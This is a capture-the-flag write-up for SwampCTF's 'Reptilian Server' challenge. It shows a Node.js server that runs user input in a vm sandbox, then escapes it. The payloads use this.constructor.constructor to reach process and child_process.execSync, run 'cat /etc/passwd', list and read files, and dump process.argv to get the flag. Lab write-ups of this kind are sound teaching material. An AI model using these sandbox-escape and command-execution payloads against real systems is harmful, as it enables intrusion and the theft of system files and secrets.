

# Reptilian Server
> You are a human spy sent to gather information on a new centralized computing station that the Reptilians have developed, and is being used to house important secrets. In order to blend in, you learned the Reptilian language, which is similar to English except there are no spaces and you can't talk for too long.

> Using your unique skillset, gather as much information from the Reptilians as you can. If you can tell us how they started the server we can replicate it ourselves. There may be a flag in it for you if you do.

> The flag will be in the standard format for SwampCTF.

## About the Challenge
We got a server to connect and also Javascript source code called `server.js`. Here is the content of `server.js`:

```javascript
const vm = require('node:vm');
const net = require('net');

// Get the port from the environment variable (default to 3000)
const PORT = process.env.PORT || 3000;

// Create a TCP server
const server = net.createServer((sock) => {
    console.log('Client connected!');
    sock.write(`Welcome to the ReptilianRealm! Please wait while we setup the virtual environment.\n`);

    const box = vm.createContext(Object.create({
        console: {
            log: (output) => {
                sock.write(output + '\n');
            }
        },
        eval: (x) => eval(x)
    }));

    sock.write(`Environment created, have fun playing with the environment!\n`);

    sock.on('data', (data) => {
        const c = data.toString().trim();

        if (c.indexOf(' ') >= 0 || c.length > 60) {
            sock.write("Intruder Alert! Removing unwelcomed spy from centeralized computing center!");
            sock.end();
            return;
        }

        try {
            const s = new vm.Script(c);
            s.runInContext(box, s);
        } catch (e) {
            sock.write(`Error executing command: ${e.message} \n`);
        }
    });

    sock.on('end', () => { console.log('Client disconnected!'); });
});

// Handle server errors
server.on('error', (e) => {
    console.error('Server error:', e);
});

// Start the server listening on correct port.
server.listen(PORT, () => {
    console.log(`Server listening on port ${PORT}`);
});
```

We can execute a JS code but there are 2 restriction here:

* There must be no whitespace in the input
* The length of each input cannot exceed 60 characters

## How to Solve?
To solve this chall, Im using this repository as a reference (https://github.com/aadityapurani/NodeJS-Red-Team-Cheat-Sheet) and then I saw `vm module breakout` section

```js
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()`);
console.log(xyz);
```

Because we can't enter a string that exceeds 60 characters, so I just divided it into several variables. To bypass space constraints, I use `String.fromCharCode(32)` which is the equivalent of spaces

```js
space=String.fromCharCode(32)
d="return"+space+"this.process"
proc=this.constructor.constructor(d)();
la=proc.mainModule.require('child_process');
console.log(la.execSync('ls').toString())
console.log(la.execSync('cat${IFS}Dockerfile').toString())
```



> btw I solved this challenge using unintended ways. Here is the solution provided by the author, which I found by reading the `solution.md` file on the server

```
console.log(la.execSync('cat${IFS}*.md').toString())
# Challenge

You are a human spy sent to gather information on a new centralized computing station that the Reptilians have developed, and is being used to house important secrets. In order to blend in, you learned the Reptilian language, which is similar to English except there are no spaces and you can't talk for too long. 

Using your unique skillset, gather as much information from the Reptilians as you can. If you can tell us how they started the server we can replicate it ourselves. There may be a flag in it for you if you do. 

The flag will be in the standard format for SwampCTF.# Solution to Reptilian Server

The solution to this challenge is complex, and the main difficulty is in establishing the VM escape. 

Its easy to see from the dockerfile that the flag will be provided as an argument to the process running the server.
In order to access that flag, you must escape the VM which runs your commands. This payload would normally do the trick: 

console.log((this.constructor.constructor('return (process.argv)'))())

However, to blend in with the reptillians we need to shorten this payload and remove the spaces from it. 

To shorten the payload, we can break it up into sections by storing parts of the payload in variables, like so:

let b='return (process.argv)'
let a=this.constructor.constructor(b);
console.log(a())

Then, in order to write this without any spaces, we can use a combination of String.fromCharCode and a unicode character "Paragraph Separator" (U+2029) 
to rewrite the payload without spaces, solving the challenge. 

let
b='return+String.fromCharCode("160")+(process.argv)'
let
a=this.constructor.constructor(b);
console.log(a())
```

```
swampCTF{Unic0d3_F0r_Th3_W1n}
```